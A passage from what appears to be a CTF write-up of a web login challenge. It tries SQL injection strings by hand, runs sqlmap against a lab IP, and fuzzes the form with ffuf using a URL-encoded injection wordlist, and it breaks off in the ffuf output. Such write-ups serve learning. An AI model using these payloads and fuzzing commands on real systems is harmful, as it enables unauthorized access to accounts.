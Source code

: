 ![image-20211007141333993](/home/kali/.config/Typora/typora-user-images/image-20211007141333993.png)

SQLi may be possible, so next I tried the 

- admin' or '1'='1    :    pass
- admin')-- -     :    pass
- admin' or 1=1 --     :    pass

No luck!



Lets do the above, but much deeper, using sqlmap:

`sqlmap -u http://159.65.59.85:31911 --forms --crawl=2`

This returned no results, even though it seemed like it was working properly. I also tried modifying the POST data to include the usernames *admin*, *reese*, and *phonebook* (instead of guessing values on both parameters), and still no luck.

At this point I started wondering why I was having no result. Was it because of the string escaping? The singlequote only worked once it was backslash escaped, so perhaps the SQLi strings need proper escaping? Let's try the SQLi again, but this time with strings that we have ensured are urlencoded.



### URL-Encoded Login Form Fuzzing

Kali comes prepackaged with a wordlist suitable for fuzzing auth forms: **/usr/share/wordlists/wfuzz/Injections/All_attack.txt**. 

`WLIST=/usr/share/wordlists/wfuzz/Injections/All_attack.txt`

`ffuf -w $WLIST:FUZZ -u http://$RADDR/login  -X POST -d 'username=FUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 80 -c -o ffuf-output -of html -fc 307`  

As expected, this yields nothing. 

Let's try URL-encoding the whole wordlist

`cat $WLIST | perl -MURI::Escape -ne 'chomp;print uri_escape($_),"\n"' > ./urlencoded_wordlist.txt`   

`ENCLIST=./urlencoded_wordlist.txt`

`ffuf -w $ENCLIST:FUZZ -u http://$RADDR/login  -X POST -d 'username=FUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 80 -c -o ffuf-output -of html -fc 307`

![Screenshot 2021-10-07 14:28:22](/home/kali/Box_Notes/Challenges/Phonebook/Screenshot 2021-10-07 14:28:22.png)

That is a LOT of results. 

After running the above with a verbose flag, I realized that all of the **unsuccessful requests have the string "Authentication failed"**, so I filtered out that string from the result (filter the substring "fail"):

`ffuf -w $ENCLIST:FUZZ -u http://$RADDR/login  -X POST -d 'username=FUZZ&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -t 80 -c -o ffuf-output -of html -fc 307 -v -fr fail`

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
    